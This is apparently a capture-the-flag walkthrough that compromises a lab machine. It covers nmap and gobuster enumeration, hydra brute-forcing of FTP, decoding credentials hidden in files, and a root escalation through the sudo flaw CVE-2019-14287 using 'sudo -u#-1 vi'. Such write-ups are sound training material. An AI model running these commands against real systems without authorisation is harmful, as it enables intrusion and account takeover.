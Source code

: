 1. Scan the machine

		$$ nmap -sV -sC 10.10.143.82 -oN nmap

		==> PORT   STATE SERVICE VERSION

			21/tcp open  ftp     vsftpd 3.0.2

			22/tcp open  ssh     OpenSSH 6.7p1 Debian 5 (protocol 2.0)
			| ssh-hostkey: 
			|   1024 a0:8b:6b:78:09:39:03:32:ea:52:4c:20:3e:82:ad:60 (DSA)
			|   2048 df:25:d0:47:1f:37:d9:18:81:87:38:76:30:92:65:1f (RSA)
			|   256 be:9f:4f:01:4a:44:c8:ad:f5:03:cb:00:ac:8f:49:44 (ECDSA)
			|_  256 db:b1:c1:b9:cd:8c:9d:60:4f:f1:98:e2:99:fe:08:03 (ED25519)

			80/tcp open  http    Apache httpd 2.4.10 ((Debian))
			|_http-server-header: Apache/2.4.10 (Debian)
			|_http-title: Apache2 Debian Default Page: It works

			Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

2. Serach for hidden directories

		$$ gobuster dir -u http://10.10.143.82/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

		==> /assets               (Status: 301) [Size: 313] [--> http://10.10.143.82/assets/]


	## Check the '/assets' directory:

	==> Found: RickRolled.mp4 [Nothing Suspicious]
			   style.css      [Found a comment: /* Nice to see someone checking the stylesheets.Take a look at the 					page: /sup3r_s3cr3t_fl4g.php*/]


	## Check the '/sup3r_s3cr3t_fl4g.php' page:

	==> It redirects to youtube [get rid of redirection by burpsuit]:

			1. capture the request
			2. We found a hidden directory [GET /intermediary.php?hidden_directory=/WExYY2Cv-qU]
			3. Lastly found an image [Hot_Babe.png]

3. Enumerate the image

		$$ strings Hot_Babe.png

		==> Eh, you've earned this. Username for FTP is ftpuser
			One of these is the password:
		
	## We found the username for the ftp

	## save all text after line "One of these is the password:" in a 'wordlists.txt' file.

4. Enumerating FTP server

		$$ hydra ftp://10.10.143.82 -l ftpuser -P wordlist.txt -V -f

		==> Password: 5iez1wGXKfPKQ

		## login into ftp using:

		## User: ftpuser
		## password: 5iez1wGXKfPKQ


	## we found "Eli's_Creds.txt" file

		$$ cat "Eli's_Creds.txt"

		==> +++++ ++++[ ->+++ +++++ +<]>+ +++.< +++++ [->++ +++<] >++++ +.<++ +[->-
			--<]> ----- .<+++ [->++ +<]>+ +++.< +++++ ++[-> ----- --<]> ----- --.<+
			++++[ ->--- --<]> -.<++ +++++ +[->+ +++++ ++<]> +++++ .++++ +++.- --.<+
			+++++ +++[- >---- ----- <]>-- ----- ----. ---.< +++++ +++[- >++++ ++++<
			]>+++ +++.< ++++[ ->+++ +<]>+ .<+++ +[->+ +++<] >++.. ++++. ----- ---.+
			++.<+ ++[-> ---<] >---- -.<++ ++++[ ->--- ---<] >---- --.<+ ++++[ ->---
			--<]> -.<++ ++++[ ->+++ +++<] >.<++ +[->+ ++<]> +++++ +.<++ +++[- >++++
			+<]>+ +++.< +++++ +[->- ----- <]>-- ----- -.<++ ++++[ ->+++ +++<] >+.<+
			++++[ ->--- --<]> ---.< +++++ [->-- ---<] >---. <++++ ++++[ ->+++ +++++
			<]>++ ++++. <++++ +++[- >---- ---<] >---- -.+++ +.<++ +++++ [->++ +++++
			<]>+. <+++[ ->--- <]>-- ---.- ----. <


		## This is a language called brainf*ck

	## Go to: https://www.dcode.fr/brainfuck-language

		==> User: eli
			Password: DSpDiM1wAEwid

5. SSH into machine

		$$ ssh eli@10.10.143.82 [Using the cracked password]

	## we can see a banner after login it says "Gwendoline, I am not happy with you. Check our leet s3cr3t hiding place. I've left you a hidden message there"

		$$ locate user.txt

		==> /home/gwendoline/user.txt

		$$ cat /home/gwendoline/user.txt

		==> cat: user.txt: Permission denied

	## So we have to escalate our privilages to get the user.txt


6. Horizontal Privilege Escalation

	## Acording to the Banner of ssh:

		$$ locate s3cr3t

		==> /usr/games/s3cr3t/.th1s_m3ss4ag3_15_f0r_gw3nd0l1n3_0nly!

		$$ cat /usr/games/s3cr3t/.th1s_m3ss4ag3_15_f0r_gw3nd0l1n3_0nly!

		==> Your password is awful, Gwendoline. 
			It should be at least 60 characters long! Not just MniVCQVhQHUNI
			Honestly!

			Yours sincerely
			   -Root

		## So login credentials are:

			* Username: gwendoline
			* Password: MniVCQVhQHUNI

		$$ su gwendoline [Use above password]

	==> we are now gwendoline user.


7. Vertical Privilege Escalation

		$$ sudo -l

		==> (ALL, !root) NOPASSWD: /usr/bin/vi /home/gwendoline/user.txt	
			||
			\/
		## this is a vulnerability (CVE-2019-14287)

		## This bug is fixed in Sudo version 1.8.28 [Check virsion: sudo -V]


		$$ sudo -u#-1 /usr/bin/vi /home/gwendoline/user.txt

## We are now root...
